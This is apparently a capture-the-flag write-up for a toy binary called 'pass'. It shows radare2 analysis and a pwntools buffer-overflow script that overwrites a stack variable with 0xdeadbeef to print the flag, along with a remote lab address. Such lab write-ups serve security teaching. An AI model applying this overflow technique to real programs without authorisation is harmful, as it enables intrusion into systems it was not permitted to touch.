 1. use `file <file>` to take a look. It's ELF file.

```
$ file pass
pass: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, 
interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=abcfeb57f2bcc8ad99fcba05bb6a05830c5e36d0, 
for GNU/Linux 3.2.0, not stripped
```

2. use `r2 <executable file>` to see the flow of the program.
  a. `aa`, `afl` to see the function of the binary.
  b. `s <function>` seek to the function.
  b. `VV` to see the function(we just set) flow in a graphic way.
  
3. by r2 VV command, we can see that var_20h is put at rbp-0x20, var_4h is at rbp-0x4.
![image](https://user-images.githubusercontent.com/66505819/139246455-3a32ff1c-f05b-4d58-b7a5-2976cc7d66b0.png)

4. keep looking, we find that the program store number 1234(0x4d2) at var_4h. And the program will compare it with 0xdeadbeef.
   if they are the same, program jump to Door open and we'll find the flag, or we fail.
![image](https://user-images.githubusercontent.com/66505819/139246670-c5619595-d225-4ea8-89e0-e1752fe65339.png)
![image](https://user-images.githubusercontent.com/66505819/139246794-227723d7-fe4c-4f59-92e5-b6c59ef32075.png)

5. Our input will be put at var_20h, and we need to change the data that store at var_4h, using boffer overflow. So, we have the script below.
```
from pwn import *

r = process('./pass')
#r = remote('120.114.62.211', 6126)

payload = b'A'*28

r.sendline(payload + p64(0xdeadbeef))  #if 64 bit ,or 32bit use p32

r.interactive()
```

6. run the script and get the flag.
```
$ python3 exploit.py
[+] Starting local process './pass': pid 162
[*] Switching to interactive mode
Billy left his key in the locked room.
However, he forgot the token of the room.
Do you know what's the key?Door open. OwO
FLAG{xtnntfhzflpttvxvzzbfjfnxbjvrzxdfvzlvhpt}
hello hacker!
[*] Process './pass' stopped with exit code 0 (pid 162)
[*] Got EOF while reading in interactive
$
```
